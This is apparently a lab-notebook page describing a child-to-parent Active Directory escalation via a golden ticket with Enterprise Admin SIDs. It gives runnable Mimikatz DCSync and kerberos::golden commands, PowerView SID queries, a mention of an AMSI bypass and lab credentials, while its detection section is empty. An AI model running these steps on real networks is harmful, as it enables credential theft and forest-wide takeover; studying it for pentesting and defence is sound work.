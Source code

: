 # Krbtgt hash

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools

* [MimiKatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../.gitbook/assets/image (20).png>)

To execute the attack we need a couple bits of information:

* The hash of the krbtgt user.
* The SID of the Enterprise Admins group.
* The SID of the child domain.

3\. Execute a DCsync with MimiKatz and only retrieve the krbtgt hash:

```
Invoke-MimiKatz -Command '"lsadump::dcsync /user:amsterdam\krbtgt /domain:amsterdam.bank.local"'
```

![](<../../../.gitbook/assets/image (22) (1).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../.gitbook/assets/image (34).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSID
```

![](<../../../.gitbook/assets/image (21).png>)

6\. Create a golden ticket with MimiKatz and inject it into the current session:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /krbtgt:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /ptt"'
```

![](<../../../.gitbook/assets/image (70).png>)

7\. The ticket injected successfully, now we can dir the c$ directory to check if our user has read/write access to the C disk:

![](<../../../.gitbook/assets/image (75) (1).png>)

## Defending

### Detection



## References

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
